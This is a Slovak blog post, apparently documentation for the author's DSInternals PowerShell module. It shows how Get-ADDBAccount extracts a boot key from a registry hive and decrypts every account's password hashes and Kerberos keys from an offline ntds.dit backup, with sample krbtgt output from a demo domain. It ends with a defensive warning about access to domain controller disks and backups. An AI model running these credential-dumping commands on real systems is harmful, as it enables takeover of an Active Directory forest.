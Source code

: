 ```yaml
---
ref: dumping-ntds-dit-files
title: 'Vykrádanie hesiel zo zálohy Active&nbsp;Directory'
date: 2015-08-15T21:29:37+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-zo-zalohy-active-directory/
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---
```


Nedávno som písal o príkaze [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/), pomocou ktorého je možné vzdialene vytiahnuť heslá a iné citlivé informácie z doménového kontroléru. Tieto dáta sú na každom doménovom kontroléri uložené v súbore **ndts.dit** a odtiaľ sa dajú získať aj napriamo. Dokáže to napríklad nástroj [NTDSXtact](https://github.com/csababarta/ntdsxtract), ale ten je určený pre Linux, nemá moc jednoduché ovládanie a na väčších databázach je dosť pomalý. Preto som do svojho [PowerShell modulu DSInternals](/sk/na-stiahnutie/) pridal príkaz **Get-ADDBAccount**, ktorého použitie je hračka:

```powershell
# Z registrov najprv získame tzv. Boot Key, ktorým sú heslá zašifrované:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# Načítame databázu a dešifrujeme heslá všetkých používateľov:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# Môžeme vytiahnuť aj heslo konkrétneho účtu, na základe distinguishedName, objectGuid, objectSid či sAMAccountName:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
```

<!--more-->

Výstup vyzerá úplne rovnako ako v prípade príkazu [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/):

```
DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda
```

Získané hashe hesiel sa&nbsp;dajú pomerne jednoducho využiť k&nbsp;ovládnutiu celého Active Directory forestu. Preto si&nbsp;dajte dobrý pozor na&nbsp;to,&nbsp;kto všetko má fyzický prístup k&nbsp;pevným diskom doménových kontrolérov, ich zálohám a&nbsp;v&nbsp;neposledom rade k&nbsp;VHD/VHDX/VMDK obrazom.